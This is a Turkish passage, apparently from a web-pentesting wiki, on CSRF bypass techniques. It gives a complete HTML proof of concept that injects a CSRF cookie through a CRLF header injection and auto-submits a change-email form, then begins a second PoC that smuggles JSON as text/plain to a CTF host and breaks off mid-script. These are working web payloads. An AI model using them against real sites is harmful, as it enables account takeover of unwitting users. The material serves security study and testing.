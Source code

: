 ### CSRF tokeni bir çerezle doğrulanıyor

Uygulamalar, tokeni hem bir çerezde hem de bir istek parametresinde kopyalayarak veya bir CSRF çerezi ayarlayarak ve arka uçta gönderilen tokenin çerezle eşleşip eşleşmediğini doğrulayarak CSRF koruması uygulayabilir. Uygulama, istek parametresindeki tokenin çerezdeki değerle uyumlu olup olmadığını kontrol ederek istekleri doğrular.

Ancak, bu yöntem, bir saldırganın kurbanın tarayıcısında bir CSRF çerezi ayarlamasına izin veren hatalar varsa CSRF saldırılarına karşı savunmasızdır, örneğin bir CRLF açığı. Saldırgan, çerezi ayarlayan yanıltıcı bir resmi yükleyerek bunu istismar edebilir ve ardından CSRF saldırısını başlatabilir.

Aşağıda bir saldırının nasıl yapılandırılabileceğine dair bir örnek bulunmaktadır:
```html
<html>
<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
<body>
<script>
history.pushState("", "", "/")
</script>
<form action="https://example.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input
type="hidden"
name="csrf"
value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img
src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E"
onerror="document.forms[0].submit();" />
</body>
</html>
```
> [!TIP]
> Dikkat edin ki eğer **csrf token oturum çerezi ile ilişkiliyse bu saldırı çalışmayacaktır** çünkü kurbanın oturumunu ayarlamanız gerekecek ve dolayısıyla kendinizi hedef almış olacaksınız.

### Content-Type değişikliği

[**şuna**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests) göre, **POST** yöntemi kullanarak **ön uç** isteklerini **önlemek** için izin verilen Content-Type değerleri şunlardır:

- **`application/x-www-form-urlencoded`**
- **`multipart/form-data`**
- **`text/plain`**

Ancak, kullanılan **Content-Type**'a bağlı olarak **sunucu mantığı değişebilir** bu yüzden belirtilen değerleri ve **`application/json`**, **`text/xml`**, **`application/xml`** gibi diğerlerini denemelisiniz.

Örnek ( [buradan](https://brycec.me/posts/corctf_2021_challenges) ) JSON verisini text/plain olarak göndermenin:
```html
<html>
<body>
<form
id="form"
method="post"
action="https://phpme.be.ax/"
enctype="text/plain">
<input
name='{"garbageeeee":"'
value='", "yep": "yep yep yep", "url": "https://webhook/"}' />
</form>
<script>
```